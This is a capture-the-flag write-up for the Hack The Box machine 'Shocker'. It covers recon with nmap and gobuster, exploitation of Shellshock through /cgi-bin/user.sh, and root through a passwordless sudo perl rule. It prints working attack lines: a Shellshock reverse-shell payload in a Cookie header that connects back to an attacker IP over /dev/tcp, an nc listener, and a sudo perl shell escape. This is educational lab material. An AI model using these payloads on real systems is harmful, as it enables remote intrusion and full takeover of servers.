

# Shocker: 10.10.10.56

## Hints

- Try multiple wordlists with gobuster
- Read potential exploit source code to understand the exploit

## nmap

Starting with the usual `nmap` scan.

```none
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

Based on the machine name, and a web port open - looks like this box is about the [Shellshock vulnerability](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).


## 80: Recon + Gobuster

Did the usual `gobuster` on the base directory, and included some extensions looking for Bash scripts.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_80_root_dirmedium.log -x sh,bash
```

No results! I dug around for a long time trying to figure out why I couldn't find anything. Tried some different wordlists, messed with status codes, messed with extensions, and messed with user agents. After a long time, I tried a random wordlist that I wouldn't usually use.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.56 -w /usr/share/wordlists/dirb/big.txt -o gobuster_80_root_dirbbig.log  -x sh,bash
```

And success! Something interesting...

```none
/cgi-bin/             (Status: 403) [Size: 294]
```



So, back to `gobuster` on a new endpoint.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/big.txt -o gobuster_80_cgibin_dirbbig.log -x sh,bash
```

The key result:

```none
/user.sh              (Status: 200) [Size: 118]
```

And running a `curl` on the discovered file:

```none
└─$ curl http://10.10.10.56/cgi-bin/user.sh -vvv
*   Trying 10.10.10.56:80...
* Connected to 10.10.10.56 (10.10.10.56) port 80 (#0)
> GET /cgi-bin/user.sh HTTP/1.1
> Host: 10.10.10.56
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sun, 27 Jun 2021 02:43:59 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Transfer-Encoding: chunked
< Content-Type: text/x-sh
< 
Content-Type: text/plain

Just an uptime test script

 22:43:59 up  4:31,  0 users,  load average: 0.12, 0.20, 0.09


* Connection #0 to host 10.10.10.56 left intact
```

## Shellshock: Python Exploit

Now we have some key pieces of information. The location of a script at `cgi-bin/user/sh`. That the machine name gives away the vulnerability - shellshock. And that the webserver is Apache running on Ubuntu. A little bit of `searchsploit` magic.

```none
└─$ searchsploit shellshock | grep -i apache
Apache mod_cgi - 'Shellshock' Remote Command Injection                            | linux/remote/34900.py
```

After a quick review of the script, it looks like the primary thing it's doing is setting the Shellshock payload with a lot of logic about creating a new request to the web server. I went through the process of running the script and it worked well. The list of commands used:

```none
# Copy the script
searchsploit -m linux/remote/34900.py

# Run
python 34900.py payload=reverse rhost=10.10.10.56 rport=80 pages=/cgi-bin/user.sh lhost=10.10.14.56 lport=8000
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Shellshock: Burp

The primary reason I mess around with Hack The Box is to learn new stuff. So it makes sense to dissect the Python exploit to understand how it works. I started by intercepting a request to `http://10.10.10.56/cgi-bin/user.sh`. Then looked at the request being constructed in the Python exploit. It was setting a payload on the `Cookie` and `Referer` headers. Here is an example of the payload:

```python
payload = "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/"+lhost+"/"+str(lport)+" 0>&1 &"
```

Then, I added a `Cookie` header, with a reverse shell payload.

```none
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.56/8000 0>&1
Content-Length: 2


```


Success!

```none
└─$ nc -lvnp 8000                                                                                               1 ⨯
listening on [any] 8000 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.56] 54294
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Flag: User

Looking at the `home` directory, and `/etc/passwd` file shows one user, and the user flag.

```none
shelly@Shocker:/usr/lib/cgi-bin$ ls -lisa /home 
ls -lisa /home
total 12
    12 4 drwxr-xr-x  3 root   root   4096 Sep 22  2017 .
     2 4 drwxr-xr-x 23 root   root   4096 Sep 22  2017 ..
152446 4 drwxr-xr-x  4 shelly shelly 4096 Sep 22  2017 shelly
shelly@Shocker:/usr/lib/cgi-bin$ wc -c /home/shelly/user.txt
wc -c /home/shelly/user.txt
33 /home/shelly/user.txt
```

## Flag: Root

This was a pretty simple privesc. Usually, I try to do multiple things at once - so I ran linpeas while having a manual look around the system. Both found a weak `sudo` configuration.

```none
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                       
Matching Defaults entries for shelly on Shocker:                                                                    
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

With the ability to run `perl` as sudo without a password - root was pretty easy. I suck at `perl` so I did a quick lookup on [`perl` on GTFObins](https://gtfobins.github.io/gtfobins/perl/). Selected the `Shell` option and easily opened a shell as root.

```none
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
wc -c /root/root.txt
33 /root/root.txt
```

## Lessons Learned

- Never rely on one wordlist
- Enumeration and more information always helps. The example today was getting a good Shellshock to exploit that was specifically targeted for Apache with a nice working exploit
- Dig deeper to understand exploits and try more than one approach to get better at method and tools

## Useful Resources

- [HackTheBox Shocker - ippsec](https://www.youtube.com/watch?v=IBlTdguhgfY)
- [The Shellshock Bug In About Four Minutes by Tom Scott](https://www.youtube.com/watch?v=aKShnpOXqn0)
